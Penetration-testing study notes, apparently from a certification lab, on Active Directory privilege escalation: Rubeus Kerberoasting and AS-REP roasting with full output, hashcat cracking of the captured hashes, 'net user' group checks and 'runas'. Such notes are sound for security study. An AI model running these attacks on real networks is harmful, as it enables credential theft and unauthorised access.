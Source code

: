 # Escalating Privilege

##

## Abusing Active Directory Authentication

Sometimes a way of escalating privileges is by moving laterally. We can take advantage of the same techniques and tools we would use for moving laterally to escalate our privileges.

### Kerberoasting with Rubeus

{% embed url="https://github.com/GhostPack/Rubeus" %}

If Rubeus is not installed we'll have to switch to our Windows dev box and compile via VIsual Studio. We can transfer the binary back to our Kali host then to our victim.

```powershell
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```

### Cracking with Hashcat

```shell-session
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
```



### AS-REP Roasting with Rubeus

```powershell
PS C:\Users\Public> .\Rubeus asreproast /nowrap
.\Rubeus asreproast /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0 


[*] Action: AS-REP roasting

[*] Target Domain          : relia.com

[*] Searching path 'LDAP://DC02.relia.com/DC=relia,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : michelle
[*] DistinguishedName      : CN=Michelle Smith,CN=Users,DC=relia,DC=com
[*] Using domain controller: DC02.relia.com (172.16.103.6)
[*] Building AS-REQ (w/o preauth) for: 'relia.com\michelle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$michelle@relia.com:0C5BDBDC
```

### Cracking with Hashcat

```bash
kali@kali sudo hashcat -m 18200 michelle.asrep /usr/share/wordlists/rockyou.txt --force
```

## Checking Groups - net user&#x20;

Another way we can check groups a user belongs to is using `net user`

```powershell
PS C:\Users\tony> net user tony
User name                    tony
Full Name                    Nothing Stops
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/16/2023 1:57:34 PM
Password expires             Never
Password changeable          6/16/2023 1:57:34 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

## Runas Command

If we've gained access to a plaintext password, it's possible to use the [`runas` ](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\))command to execute commands as that user.

```powershell
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...
PS C:\Users\steve> 
```

